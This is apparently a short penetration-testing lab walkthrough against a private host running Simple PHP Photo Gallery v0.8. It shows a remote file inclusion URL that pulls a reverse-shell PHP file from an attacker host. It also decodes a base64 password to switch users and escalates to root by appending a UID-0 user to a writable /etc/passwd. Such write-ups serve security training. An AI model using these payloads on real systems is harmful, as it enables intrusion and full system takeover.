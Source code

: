 _____

IP=192.168.179.58

# 80

Simple PHP Photo Gallery v0.8


https://www.exploit-db.com/exploits/48424


# Remote File Inclusion


```txt
site.com/image.php?img= [ PAYLOAD ]
```

python server 

```txt
site.com/image.php?img=http://AttackIP/rev.php
```

Port 21 revese shell

# PrivEsc

![[Pasted image 20240223130206.png]]

```bash
echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d
echo 'SG9ja1N5ZG5leUNlcnRpZnkxMjM=' | base64 -d
HockSydneyCertify123
```

```bash
su michael
```

/etc/passwd file is writeable

```bash
openssl passwd -1 -salt password password
$1$password$Da2mWXlxe6J7jtww12SNG/

echo 'dani:$1$password$Da2mWXlxe6J7jtww12SNG/:0:0:dani:/root:/bin/bash' >> /etc/passwd
```

